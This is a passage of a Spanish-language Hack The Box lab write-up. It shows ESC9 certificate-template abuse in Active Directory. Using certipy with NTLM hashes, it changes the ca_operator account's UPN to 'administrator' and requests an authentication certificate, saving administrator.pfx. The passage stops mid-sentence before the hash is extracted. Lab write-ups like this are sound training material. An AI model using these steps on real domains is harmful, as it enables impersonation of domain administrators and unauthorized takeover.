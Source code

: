 ~~~ bash
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
~~~


### The `ESC9` technique to Escalate Privileges 

En este caso la plantilla a utilizar se llama `certified-DC01-CA` y está configurada sin la extensión de seguridad. Como el reporte nos indica, esta plantilla cumple los requerimientos para poder usar la técnica `ESC9` para elevar nuestros privilegios

~~~ bash
...
Enrollment Flag                     : NoSecurityExtension
...
~~~

En este caso la cuenta `ca_operator` tiene permisos para emitir certificados utilizando esta plantilla, que tiene por nombre `CertifiedAuthentication`, esta plantilla permite autenticarnos en el dominio, por lo que en teoría podríamos acceder como un usuario privilegiado sin conocer la contraseña ni el hash NTLM

Modificaremos el atributo `upn` (User Principal Name, que es un atributo que identifica las cuentas dentro de un bosque de Active Directory) para enmascarar la identidad de la cuenta `ca_operator` para que cuando intentemos autenticarnos con el certificado, el sistema interprete que somos `Administrator@certified.htb`

 ~~~ bash
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
~~~

Una vez hemos modificado el `upn` para hacernos pasar por el usuario `Administrator`, emitiremos un certificado que nos permitirá autenticarnos. Con esta autenticación lo que nos interesa como atacantes es poder extraer el hash `NT` del usuario `Administrator` para poder establecer conexiones usando 

~~~ bash
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication       

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
~~~
